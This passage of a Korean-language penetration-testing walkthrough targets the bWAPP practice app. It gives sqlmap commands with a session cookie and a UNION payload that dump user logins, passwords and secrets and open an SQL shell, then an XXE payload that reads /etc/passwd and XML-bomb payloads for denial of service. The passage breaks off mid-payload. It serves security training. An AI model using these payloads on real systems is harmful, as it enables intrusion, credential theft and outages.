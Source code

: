      ```
  1. 이런 식으로 계속 DB의 정보를 알아낼 수 있지만, 아래 예와 같이 SQL injection 자동화 도구인 `sqlmap`을 사용하면 쉽게 더 많은 정보를 알아낼 수 있다.
     ```sh
     $ sqlmap -u "http://192.168.0.106/bWAPP/sqli_13.php" --cookie="PHPSESSID=bf571c656a20f5965696d759d1f260b7; security_level=0" --data="movie=1&action=go" --tables
     $ sqlmap -u "http://192.168.0.106/bWAPP/sqli_13.php" --cookie="PHPSESSID=bf571c656a20f5965696d759d1f260b7; security_level=0" --data="movie=1&action=go" --columns
     ```
  1. 위에서 `sqlmap`을 이용하여 DB 칼럼명을 얻어냈으므로, movie에 아래 내용을 주면 login, password, secret, email 등의 사용자 정보를 알아낼 수 있다.
     ```sql
     movie=0 UNION SELECT null,login,password,email,secret,null,null FROM users&action=go
     ```
  1. Penetration 테스트가 성공하므로, 아래와 같이 sqlmap을 이용하여 SQL shell도 얻을 수 있다.
     ```sh
     $ sqlmap -u "http://192.168.0.106/bWAPP/sqli_13.php" --cookie="PHPSESSID=bf571c656a20f5965696d759d1f260b7; security_level=0" --data="movie=1&action=go" --sql-shell
     ```
     이후 아래 예와 같이 각종 DB 정보를 조회할 수 있다.
     ```sql
     sql-shell> select * from users
     ```

## [A7] XML External Entity Attacks (XXE)
  1. Burp Suite를 실행시키고 intercept를 켠 후, **Any bugs?** 버튼을 누른다.
  1. Burp Suite에서 캡쳐된 내용을 보면 아래 부분이 있다.
     ```xml
     <reset><login>bee</login><secret>Any bugs?</secret></reset>
     ```
  1. Burp Suite에서 마우스 우클릭하여 `Send to Repeater`를 누른다. 이후 `Repeater` 탭에 들어가보면 기존 내용이 복사되어 있다. 여기서 위의 기존 정보를 아래 내용으로 대체한 후 (즉, 로그인 사용자 정보를 XML external entity로 대체), `Send` 버튼을 누른다.
     ```xml
     <?xml version="1.0" encoding="utf-8"?>
     <!DOCTYPE Header [
     <!ENTITY bee SYSTEM "file:///etc/passwd">
     ]>
     <reset><login>&bee;</login><secret>Any bugs?</secret></reset>
     ```
     응답으로 `/etc/passwd` 파일 내용이 출력된다. 파일을 바꿔가면서 계속 보내면 응답으로 해당 파일의 내용이 출력된다.
  1. XML bomb도 이 XXE 공격 기법으로 DoS 공격을 한다. 예를 들어 아래와 같이 보내면, "lol"(lots of laughs) 문자열이 10^3 번 출력된다.
     ```xml
     <?xml version="1.0"?>
     <!DOCTYPE Header [
     <!ENTITY lol "lol">
     <!ELEMENT Header (#PCDATA)>
     <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
     <!ENTITY bee "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     ]>
     <reset><login>&bee;</login><secret>Any bugs?</secret></reset>
     ```
     이제 아래와 같이 보내면 (10^9 번 "lol" 출력) 서버의 CPU 사용율이 치솟고 response는 결국 타임 아웃이 걸린다.
     ```xml
     <?xml version="1.0"?>
     <!DOCTYPE Header [
     <!ENTITY lol "lol">
     <!ELEMENT Header (#PCDATA)>
     <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">